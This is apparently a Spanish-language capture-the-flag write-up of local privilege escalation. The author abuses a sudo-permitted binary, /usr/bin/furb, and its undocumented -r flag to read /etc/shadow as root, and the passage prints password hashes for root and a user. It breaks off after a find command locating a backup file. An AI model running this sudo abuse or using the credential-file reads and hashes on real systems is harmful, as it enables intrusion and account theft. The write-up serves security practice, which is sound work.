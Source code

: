 Si ejecutamos el binario para ver como reacciona obtenemos lo siguiente:
```bash
sudo -u root /usr/bin/furb

furb version 1.0
Usage:
  furb --help        Show this help message
  furb --version     Show version information
  furb --list        List installed items
```

El binario `/usr/bin/furb` tiene una funcionalidad crítica que podemos explotar para escalar privilegios. Aquí está el análisis y la explotación
Esto indica que el sistema utiliza **módulos cargables**. La clave es que estos módulos probablemente son binarios/scripts que se ejecutan con privilegios de root cuando se invoca `furb`.

Revisando cadenas legibles para este binario:
```bash
strings /usr/bin/furb
```

Tenemos la siguiente:
```bash
Error: Missing file argument for -r
```

Al parecer requierre esta argumento, Intentando probar el argumento.
```bash
sudo -u root /usr/bin/furb -r /etc/shadow
```

Somos capaces de ver contenido privilegiado:
```bash
root:$y$j9T$djr/6OzFs5YQBGkXwyusg0$OJCmQMUtPM.g1Jw/6wVW9ZSEgHfnZq5EW6mPRygleO/:20249:0:99999:7:::
daemon:*:20237:0:99999:7:::
bin:*:20237:0:99999:7:::
sys:*:20237:0:99999:7:::
sync:*:20237:0:99999:7:::
games:*:20237:0:99999:7:::
man:*:20237:0:99999:7:::
lp:*:20237:0:99999:7:::
mail:*:20237:0:99999:7:::
news:*:20237:0:99999:7:::
uucp:*:20237:0:99999:7:::
proxy:*:20237:0:99999:7:::
www-data:*:20237:0:99999:7:::
backup:*:20237:0:99999:7:::
list:*:20237:0:99999:7:::
irc:*:20237:0:99999:7:::
_apt:*:20237:0:99999:7:::
nobody:*:20237:0:99999:7:::
bambi:$y$j9T$r/nmv1Fl0wMa/zmw2HmP91$DEcAUEemN/paeO/sO0nMG05p6YvjKLcVpbTV3qvRC1D:20249:0:99999:7:::
```

Buscando por archivos del sistema bajo el nombre del binario obtuvimos lo siguiente:
```bash
find / -iname "furb*" 2>/dev/null

/usr/bin/furb
/var/backups/furbRead.txt
```
